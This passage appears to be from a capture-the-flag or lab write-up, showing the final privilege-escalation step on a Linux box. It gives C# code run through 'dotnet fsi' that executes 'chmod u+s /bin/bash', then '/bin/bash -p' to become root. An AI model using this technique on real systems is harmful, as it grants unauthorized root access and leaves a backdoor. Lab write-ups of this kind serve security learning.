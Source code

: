 Since we can run this, we can simply run `dotnet fsi`, which would open up an interactive interpreter we can use to make `/bin/bash` a SUID binary.

<pre class="language-csharp"><code class="lang-csharp"><strong>using System.Diagnostics;
</strong>string command = "chmod u+s /bin/bash";
ProcessStartInfo psi = new ProcessStartInfo("/bin/bash", $"-c \"{command}\"");
psi.UseShellExecute = false;
psi.RedirectStandardOutput = true;

Process process = new Process();
process.StartInfo = psi;
process.Start();
</code></pre>

Then, either in the same shell or another, we can run `/bin/bash -p` to become root.

<figure><img src="../../../.gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>

Rooted!
